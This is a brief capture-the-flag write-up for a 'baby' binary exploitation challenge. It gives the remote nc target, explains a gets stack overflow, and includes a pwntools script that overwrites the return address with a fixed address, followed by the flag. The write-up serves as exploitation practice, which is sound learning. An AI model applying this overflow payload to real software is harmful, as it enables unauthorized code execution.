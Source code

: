 #### Challenge:

Baby friendly!

[wah](./wah ":ignore") [wah.c](./wah.c ":ignore")

`nc challs.actf.co 31224`

---

#### Solution:

Classic `gets` stack overflow with return address overwrite, basically same as `tranquil` from `angstromctf 2021`.

```python
#!/usr/bin/env python

from pwn import *
from struct import *

r = remote('challs.actf.co', 31224)
# r = process('./wah')

payload = b'A'*(32) + b'B'*8 + pack("<Q", 0x0000000000401236)

print(r.recvuntil("Cry:").decode('utf-8').strip())

r.sendline(payload)

print(r.recvline().decode('utf-8').strip())
r.close()
```

---

<details><summary>FLAG:</summary>

```
actf{lo0k_both_w4ys_before_y0u_cros5_my_m1nd_c9a2c82aba6e}
```

</details>
<br/>
